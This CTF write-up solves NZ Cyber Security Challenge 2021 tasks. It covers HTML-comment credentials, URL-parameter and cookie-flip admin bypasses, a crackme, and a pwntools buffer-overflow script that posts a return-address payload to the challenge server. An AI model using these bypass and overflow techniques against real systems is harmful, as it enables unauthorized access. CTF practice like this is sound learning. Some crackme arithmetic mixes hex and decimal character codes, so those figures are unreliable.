



# NZ Cyber Security Challange 2021

## Challenge 2
The challenge provides a picture of a scientist cleaning a black board. Steganography is used to hide the board's contents.


You can already see a little bit. Many tools can be used to reveal but I used Photoshop with its Blending feature.


And we got the flag:
```
flag{A2QB7G#MagnesiumChlorideHexahydrate000000}
```

## Challenge 3
A login form with username and password was given. A simple check on source code reveals the username and password in a commented section
```html
<!-- Username: dumbh4ck5 Password: XorIsNotSooS3cur3 -->
```
Enter the details in and the flag appears.
```
flag{KLY5FQ#Dibasicsodiumphosphatedihydrate000}
```

## Challenge 4
The page shows "EXTERMINATE CARLOS" with an image of a robot. I spent quite some time digging that image and got nothing out of it. Then after viewing the source code, I found
```html
<!-- Show only for admin -->
<div id="admin-panel"></div>
```
So we need to somehow prove that we are admin. I tried setting cookie but that didn't work so I tried adding a parameter in URL `?admin=1` and a link to Admin panel shows up.<br/>
The Admin panel page has Carlos and Bob names with delete buttons next to them. Exterminate Carlos and we got the flag
```
flag{R5D3SM#Heptadecan-9-yl0000000000000000000}
```

## Challenge 5
An executable file named "buff" was given along with a form to send some input to it on the server. Opening the file in Ghidra quickly shows a function called `helper` call `cat flag.txt` but the function itself isn't called anywhere.



In `overflow` function, which is basicly `main`, we can see that we have a buffer-overflow here, we can use this to overwrite the return address to point to `helper` function.



The address can be obtained in different ways, I prefer pwntools because I will use python to send POST request to server anyway.

```py
#!/usr/bin/env python3

from pwn import *
import requests
import re

elf = ELF("./buff")

print("Found helper at: " + hex(elf.symbols['helper']))

payload = b"A" * 516 + p32(elf.symbols['helper'])

r = requests.post("https://r0.nzcsc.org.nz/challenge5/", data={"message": payload}, timeout=5)
print(re.search("flag{.*}", r.text).group())
```
or [here](chal5/payload.py)

516 bytes padding is the sweet spot here, following is the address of `helper`. The server may lag sometimes so just run the script again.

And the flag
```
flag{3cj2kx#4-hydroxybutylZanediyl000000000000}
```

## Challenge 6
A [crackme](chal6/crackme) file was given. It is an executable file so I threw it in Ghidra to have a look.<br/>
Here is the main function:<br/>

1. First it checks the parameter we give to be exactly 16 chars
2. Call `checkMod()` function with a parameter substring, every 4 chars.
3. `checkMod()` will convert that 4 characters into integers and sum them up, for example, "AAAA" will be 41 + 41 + 41 + 41. After that, it checks if that sum is divisible by a given number - third parameter, which are `5, 2, 0xb = 11, 0x137 = 311`

After some tinkering with ASCII table, I came up with `FFFFBBBBBBBBPPPG`. Which can be explained:
```
FFFF = 70 + 70 + 70 + 70 = 280. % 5 = 0
BBBB = 42 + 42 + 42 + 42 = 168. % 2 = 0 and % 11 = 0
PPPG = 80 + 80 + 80 + 71 = 311. % 311 = 0
```
There are many combinations can work.

Passing that to the program and we got the flag:
```
./crackme FFFFBBBBBBBBPPPG
[+] You win!
[+] Here's your flag - Flag{B78YYB#N-ditetradecylacetamide00000000000}
```

## Challenge 10
It's the same login form as [Challenge 3](#Challenge-3) with 1 additional step: modifying a cookie value.<br/>
Change cookie `logged-in` from 0 to 1, then login with the same credentials will show the flag:
```
flag{3gSdzl#TromethamineHydrochloride000000000}
```